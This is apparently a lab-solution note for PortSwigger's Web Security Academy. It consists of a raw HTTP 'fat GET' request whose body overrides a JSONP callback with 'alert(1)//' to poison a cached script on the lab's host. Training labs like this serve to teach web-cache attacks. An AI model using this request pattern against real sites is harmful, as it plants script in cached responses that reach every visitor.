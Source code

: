 # Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get

## Payload

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0ad700110438baa283294dc500670036.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0ad700110438baa283294dc500670036.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Length: 19

callback=alert(1)//
```
